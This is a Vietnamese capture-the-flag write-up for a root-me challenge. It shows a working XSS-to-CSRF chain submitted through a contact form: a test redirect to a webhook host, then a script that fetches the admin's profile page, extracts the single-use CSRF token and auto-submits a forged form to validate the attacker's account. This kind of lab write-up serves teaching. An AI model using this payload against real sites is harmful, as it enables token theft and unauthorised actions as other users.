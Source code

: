 # root-me - CSRF token bypass

Sau khi `register` trang web có phần `Private` chứa flag, tuy nhiên để xem được flag cần được `validate` từ admin.

![validated form](validate.png)

Ta cần submit form này để có thể validate tuy nhiên chỉ admin mới có quyền, ngoài ra form này dùng csrf token `Single per-page nonce` tức mỗi request check csrf token khác nhau, phải trộm được token này.


Trang web có tính năng `contact`, thử trigger xss request đến `webhook endpoint` thì đúng dính thật.

![contact form](xss-contact.png)

**Payload**: trigger
```html
<script>window.location.href=".*pipedream.*"</script>
```

Một vài lưu ý nhỏ là bot ở root-me khá lâu đời rồi nên không xài được `fetch` để gửi `post request` nhưng không sao cả, ta dùng `XMLHttpRequest`.

**Payload**: Sau nhiều lần đập đi test lại
```html
<form id="profile" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" enctype="multipart/form-data">
	<input id="username" type="hidden" name="username" value="devme">
	<input id="status" type="hidden" name="status" value="on" >
	<input id="token" type="hidden" name="token" value="#" />
</form>

<script>
	var xhttp = new XMLHttpRequest();

	xhttp.onload = function() {
		var results = this.responseText;
		var token = results.match(/name="token" value="(.*)"/)[1];
		document.getElementById("token").setAttribute("value", token);
		document.forms[0].submit(); // submit post form sau khi trộm được token và set attr.
	}

	xhttp.open("GET", "http://challenge01.root-me.org/web-client/ch23/?action=profile"); // get request đến profile để trộm token.
	xhttp.send();

</script>
```

Dán vào contact form và ngồi đợi thôi!

**flag**:
![flag](flag.png)
